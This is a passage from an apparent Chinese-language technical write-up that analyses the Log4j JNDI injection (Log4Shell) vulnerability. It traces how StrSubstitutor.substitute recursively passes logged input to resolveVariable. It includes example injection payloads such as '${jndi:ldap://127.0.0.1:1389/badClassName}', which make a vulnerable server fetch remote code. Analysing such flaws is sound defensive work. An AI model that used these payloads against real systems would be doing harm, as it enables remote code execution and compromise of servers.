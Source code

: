 

跟入`StrSubstitutor.substitute`方法，存在递归，逻辑较长,主要作用是递归处理日志输入，转为对应的输出

```java
private int substitute(final LogEvent event, final StringBuilder buf, final int offset, final int length,
                       List<String> priorVariables) {
    ...
    substitute(event, bufName, 0, bufName.length());
    ...
    String varValue = resolveVariable(event, varName, buf, startPos, endPos);
    ...
    int change = substitute(event, buf, startPos, varLen, priorVariables);
}
```

在这里要说一下，触发漏洞的必要条件其实就是此章节最上头写的那些:

```java
Logger logger = LogManager.getLogger();
logger.error("error message: {}",${jndi:rmi://<ip>/<ref>});
```

通常程序员会写下这样的日志代码，去记录一些错误日志，当攻击方输入恶意payload后，将会使变量进行更改，类似 `logger.error("error_message:${jndi:ldap://127.0.0.1:1389/badClassName}");`

而`StrSubstitutor.substitute`的递归将使`jndi:ldap://127.0.0.1:1389/badClassName`进入`resolveVariable` 方法	

![img](../../../../images/post/0118.png)
